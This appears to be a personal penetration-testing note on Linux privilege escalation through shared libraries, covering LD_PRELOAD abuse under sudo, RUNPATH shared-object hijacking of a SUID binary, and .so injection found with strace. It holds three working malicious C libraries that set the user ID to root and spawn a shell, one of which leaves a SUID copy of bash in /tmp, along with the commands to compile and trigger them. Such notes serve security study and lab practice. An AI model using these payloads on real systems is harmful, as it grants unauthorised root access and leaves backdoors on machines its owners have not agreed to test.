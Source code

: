 - **tags:** #sharedLibraries #privesc #linux 
- ------------
# Introduction
It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs. *Two types of libraries exist in Linux*: **static libraries** (denoted by the `.a` file extension) and **dynamically linked shared object libraries** (denoted by the `.so` file extension). When a program is compiled, static libraries become part of the program and can not be altered. However, *dynamic libraries can be modified to control the execution of the program that calls them*.
To list the shared objects required by a binary we can issue the `ldd` utility followed by the binary name:
```bash
ldd /bin/ls
```
## Modifying the LD_PRELOAD environment variable
There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. The `LD_PRELOAD` environment variable can load a library before executing a binary. The functions from this library are given preference over the default ones.
Let's see an example of we could utilize the `LD_PRELOAD` environment variable to privesc.
![[Pasted image 20240425103734.png]]
On the last image we can see that the user has **sudo** rights to execute `openssl` as well as modifying the `LD_PRELOAD` environment variable. We can now generate the following malicious library to load upon execution.
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void inject()__attribute__((constructor));

void inject() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```
- The **"constructor"** attribute is a special type of function attribute in GCC. *It tells the compiler to automatically call the function before the main function*.
We can now compile the `C` program into a shared object.
```bash
# -fPIC: Generate Position Independent Code.
gcc -fPIC -shared -s exploit.c -o exploit.so
```
![[Pasted image 20240425110336.png]]
**Note**: Specify absolute path of shared object dynamic library!
**Attention**: A similar privesc can be abused if the attacker controls the **LD_LIBRARY_PATH** env variable because he controls the path where libraries are going to be searched.
## Shared Object Hijacking
When stumbling upon *SUID* binaries is worth checking if they use custom dynamic libraries. It is possible to load shared libraries from custom locations. One such setting is the `RUNPATH` configuration where libraries in this folder are given preference over other folders.
![[Pasted image 20240425115507.png]]
On the previous image, we see that the binary requires a custom library named `libshared.so`. We can also see that any library found inside the `/development` folder will have preference over others. Therefore placing a malicious library named exactly as the custom library inside the  `/development` folder should have precedence over any other location. One way we could check this:
![[Pasted image 20240425120518.png]]
 Our hypothesis was correct, and the binary is vulnerable to object hijacking.  Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can now compile a malicious shared object which includes this function.
```C
#include<stdio.h>
#include<stdlib.h>

void dbquery(){
	printf("Malicious object loaded!\n");
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
}
```
```bash
# Compile malicious library
gcc -fPIC -shared -s libshared.c -o libshared.so
# execute command
./payroll
```
## SUID Binary – .so injection
When encountering a binary with **SUID** permissions that seems unusual, it's a good practice to verify if it's loading **.so** files properly. This can be checked by running the following command:
```bash
strace ./binary 2>&1 | grep -i -E "open|access|no such file"
```
For instance, encountering an error like "`open(“/path/to/.config/libcalc.so”, O_RDONLY) = -1 ENOENT (No such file or directory)`" suggests a potential for exploitation. To exploit this, one would proceed by creating a C file, say _"/path/to/.config/libcalc.c"_, containing the following code:
```C
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
	setuid(0);
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
Finally, running the affected SUID binary should trigger the exploit, allowing for potential system compromise.